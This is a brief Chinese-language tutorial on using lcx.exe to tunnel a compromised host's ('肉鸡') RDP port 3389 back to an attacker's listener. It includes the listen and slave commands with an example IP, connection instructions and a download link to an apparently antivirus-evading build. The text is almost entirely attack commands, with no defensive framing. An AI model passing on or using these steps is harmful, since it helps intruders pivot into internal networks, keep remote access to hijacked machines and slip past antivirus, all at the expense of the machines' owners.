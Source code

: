 # lcx.exe内网转发命令教程-LCX免杀下载

本机: lcx -listen 2222 3333

2222为转发端口，3333为本机任意未被占用的端口

肉鸡：lcx -slave 192.168.109.137 2222 127.0.0.1 3389

192.168.109.137 为本机IP,2222为转发端口，127.0.0.1为肉鸡内网IP，3389为远程终端端口

3389连接时格式 127.0.0.1:3333

下载地址：https://download.csdn.net/download/l1028386804/10816160